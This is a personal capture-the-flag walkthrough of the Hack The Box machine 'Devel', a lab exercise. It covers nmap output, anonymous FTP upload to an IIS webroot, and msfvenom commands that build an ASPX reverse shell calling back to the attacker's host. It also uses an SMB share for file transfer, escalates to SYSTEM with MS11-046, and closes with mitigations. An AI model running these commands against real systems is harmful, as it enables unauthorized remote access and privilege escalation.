 # DEVEL

lets run an nmap scan

```text
# Nmap 7.91 scan initiated Mon Aug  2 13:45:06 2021 as: nmap -vvv -p 21,80 -sV -sC -oN devel 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.099s latency).
Scanned at 2021-08-02 13:45:06 IST for 13s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 13:45:19 2021 -- 1 IP address (1 host up) scanned in 13.05 seconds
```

So we have FTP and HTTP, lets explore FTP first, looking at the welcome.png and iisstart.htm, looks like, this is where the web server is getting its content from, So, first thing I did is try to upload something onto the FTP server, which seem to have worked. So I've copied the image file and renamed it and uploaded it again on to the FTP and am able to access it from the HTTP server \(this is how I was able to confirm\)

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f asp LHOST=10.10.14.25 LPORT=4242 -o pl.asp
```

i've tried above stuff to generate asp payload and upload it into the FTP server, but that didn't seem to have worked. So I started looking for 'IIS htm reverse shell' on Google. Meanwhile I tried fuzzing the HTTP server with asp, htm, txt extensions, only thing I've got is /aspnet\_client, we got until here, but all of them are forbidden

```text
http://10.10.10.5/aspnet_client/system_web
```

so, only thing seems like is we have to put something in the FTP and get it to run, so lets focus on that now, so I've got some link [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/), which we can try now, we have a config file now which I'm going to try

Seems, its only showing htm file, on other extensions it just shows file not found, and now we have look if anything like this with .htm files. So I've kinda figured we can do this with .aspx files as our msfvenom payload, so lets try that now,

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f aspx LHOST=10.10.14.25 LPORT=4242 -o pl.aspx
```

and upload this file through FTP and start a listener.

![](../../.gitbook/assets/image%20%285%29%20%282%29%20%282%29%20%281%29.png)

so, we got a revershell as the iis user, and not sure how I should proceed from now, So, I'll just try to upload a winpeas.exe file and run the local PrivEsc enumeration

I usually use the smbserver.py impacket thing to share the local kali drive. So, lets do that

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
cmd /c "copy <sourcefile> X:\"
```

so, this worked, but when I try to run the winpeas.exe command, it doesn't seem to work, which is when I've realized that I've been trying to run x64 winpeas on x86 machine. Even after changing, that didn't seem to have worked, So, I'm not sure what I can do at this stage

![](../../.gitbook/assets/image%20%287%29%20%281%29%20%281%29.png)

So, I've left to try the metasploit way now, where we can search for local exploits etc \(actually this I've got from ippsec video for this specific box\), so lets try that ourselves \(generating a meterpreter shell\)

![](../../.gitbook/assets/image%20%286%29%20%281%29.png)

![](../../.gitbook/assets/image%20%282%29.png)

```text
Navigating to c:\windows\TEMP is a good idea, as a large portion
of Metasploit’s Windows privilege escalation modules require a file to be written to the target
during exploitation

Running sysinfo in the Meterpreter session reveals that the target is x86 architecture, so it is
possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
not be said for running the module on x64
```

for some reason, our meterpreter exploit suggester doesn't work as expected, so I've used the exploit directly, which worked, and we're able to get the flags

![](../../.gitbook/assets/image.png)

there is another way we can do this local privilege escalation, I've got the exe file from this repo [https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe), we can just run it on our target machine where we have IIS user to get NT Authority user

Mitigations:

Operating system should be patched to avoid this sort of Local privilege escalation exploits. And dont allow Anonymous access on FTP and also dont allow uploads on FTP if not needed

